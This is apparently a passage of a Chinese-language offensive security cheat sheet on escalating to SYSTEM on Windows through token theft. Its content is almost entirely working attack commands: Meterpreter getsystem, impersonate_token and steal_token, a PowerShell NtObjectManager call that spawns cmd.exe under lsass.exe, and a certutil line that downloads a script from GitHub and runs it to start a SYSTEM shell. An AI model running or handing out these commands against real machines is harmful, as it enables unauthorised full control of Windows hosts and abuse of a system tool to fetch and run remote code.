 查看当前用户
```
getuid
```

提权至 system 权限
```
getsystem
```

指定用户 token 窃取
```
impersonate_token "NT AUTHORITY\SYSTEM"
```

指定进程号窃取
```
steal_token 7376
```

返回之前 token
```
rev2self
或者
drop_token
```

**powershell 版**

NtObjectManager

安装模块
```
Install-Module -Name NtObjectManager
```

提权
```
New-Win32Process cmd.exe -CreationFlags NewConsole -ParentProcess(Get-NtProcess -Name lsass.exe)
```

卸载模块
```
Uninstall-Module -Name NtObjectManager
```

psgetsystem
```
certutil -urlcache -split -f https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1
.\psgetsys.ps1
[MyProcess]::CreateProcessFromParent(666,"c:\windows\system32\cmd.exe","")

将上面命令中的 666 改为任意一个 system 权限的进程的 pid 即可
```
